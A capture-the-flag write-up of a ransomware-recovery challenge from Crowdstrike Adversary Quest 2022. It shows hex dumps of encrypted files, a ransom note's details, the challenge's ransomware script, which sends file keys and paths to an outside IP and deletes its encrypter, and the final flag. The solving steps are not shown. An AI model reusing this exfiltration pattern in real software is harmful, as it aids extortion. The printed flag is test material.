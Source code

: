 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #3 So Much Bits

## Challenge Description

Unfortunately, after infection, the ransomware managed to encrypt all the customer's important files. Thanks to your help, we were able to determine the infection path and delete the control panel as well as the running ransomware. This also enabled us to gain access to the files on the disk of an infected Linux host. You can find the restored files attached. They are still encrypted, though, but at least the ransomware left some files. Please figure out whether there is a chance to decrypt the files without paying the ransom.

## Challenge Files

```console
$ ls -laR       
.:
total 5
drwxr-xr-x 1 501 dialout  192 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout  288 Jul 31 10:44 ..
-rw-r--r-- 1 501 dialout  191 Jul 18 19:37 keys.db
drwxr-xr-x 1 501 dialout  128 Jul 31 10:48 notes
-rw-r--r-- 1 501 dialout  785 Jul 18 19:37 such_note_much_ransom.txt
-rwxr-xr-x 1 501 dialout 1084 Jul 31 10:46 victim_script.py

./notes:
total 2
drwxr-xr-x 1 501 dialout 128 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout 192 Jul 31 10:48 ..
-rw-r--r-- 1 501 dialout 100 Jul 18 19:37 grocery.txt.enc
-rw-r--r-- 1 501 dialout 165 Jul 18 19:37 todo.txt.enc
```

### File *such_note_much_ransom.txt*

A ransomnote written in doge speech.

- Contact mail address is `AllYourDogeAreBelongToDoge@protonmail.com`.
- Dogecoin wallet `DJR6L7PeDcen9GFzoJnPioRd1tV3wt9X3p`.

### File *keys.db*

Seems to be binary, structure yet unknown.

```console
$ xxd keys.db                                                                  
00000000: 2c00 0000 746f 646f 2e74 7874 2e65 6e63  ,...todo.txt.enc
00000010: e752 8b60 7533 30a0 ba74 e24e 4d2c ef86  .R.`u30..t.NM,..
00000020: 8f5a 7601 1d5b 5bd5 f7dd c6f2 5fdb 1b42  .Zv..[[....._..B
00000030: 0000 0000 2200 0000 2f68 6f6d 652f 6368  ....".../home/ch
00000040: 616c 6c65 6e67 652f 6e6f 7465 732f 746f  allenge/notes/to
00000050: 646f 2e74 7874 2e65 6e63 0000 0000 2c00  do.txt.enc....,.
00000060: 0000 6365 7279 2e74 7874 2e65 6e63 b02f  ..cery.txt.enc./
00000070: d231 39e8 386d 2dd9 78dd a744 226c 46a9  .19.8m-.x..D"lF.
00000080: 97c6 4fa0 a269 fe23 d38d 9bb4 e602 0000  ..O..i.#........
00000090: 0000 2500 0000 2f68 6f6d 652f 6368 616c  ..%.../home/chal
000000a0: 6c65 6e67 652f 6e6f 7465 732f 6772 6f63  lenge/notes/groc
000000b0: 6572 792e 7478 742e 656e 6300 0000 00    ery.txt.enc....
```

### File *notes/grocery.txt.enc*

Likely one of the restored encrypted files.

```console
$ xxd grocery.txt.enc 
00000000: cc2d a24c fa37 2d8b 2006 27f5 c46a 7f6c  .-.L.7-. .'..j.l
00000010: b6bb edc9 4082 7ff3 6120 6478 03dd f66b  ....@...a dx...k
[...]
```

### File *notes/todo.txt.enc*

And another restored but still encrypted file.

```console
$ xxd todo.txt.enc   
00000000: cc2d a24c fa37 2d8b 2006 27f5 4700 d5eb  .-.L.7-. .'.G...
00000010: d878 4fc6 fbd9 5eae 4fd3 e0c6 117d 3092  .xO...^.O....}0.
[...]
```

What directly gets our attention is that the first 12 bytes (`cc2d a24c fa37 2d8b 2006 27f5`) are the same in both encrypted files.

Could be a re-use of crypto material, but that's still speculation here.

### File *victim_script.py*

This is likely the script that was used to encrypt the above files.

## Analysis of the Encryption Script

```python=
[...]
from encrypter import *

def get_encrypted_key_db(data):
    encoded_data = bytearray()
    for _, key, path in data:
        encoded_data += len(key).to_bytes(4, byteorder='little')
        encoded_data += key
        encoded_data += b"\x00\x00\x00\x00"
        encoded_data += len(path).to_bytes(4, byteorder='little')
        encoded_data += f"{path}".encode()
        encoded_data += b"\x00\x00\x00\x00"
    res = requests.post("http://116.202.161.100:57689/encrypt_db", data=b64encode(encoded_data))
    return b64decode(res.text)

def write_key_db(data):
    with open("keys.db", "wb") as h:
        h.write(data)

def main():
    paths = generate_path_list()
    # Encrypt data with military-grade AES-GCM
    encrypted_data = encrypt_files(paths)
    # Delete encryption module to anger security researchers
    os.remove("encrypter.py")
    write_files(encrypted_data)
    key_db = get_encrypted_key_db(encrypted_data)
    write_key_db(key_db)

if __name__ == "__main__":
    main()
```



## Now it's Flag Time!

Flag: **CS{d0g3_s0_n1c3_such_4m4z3}**
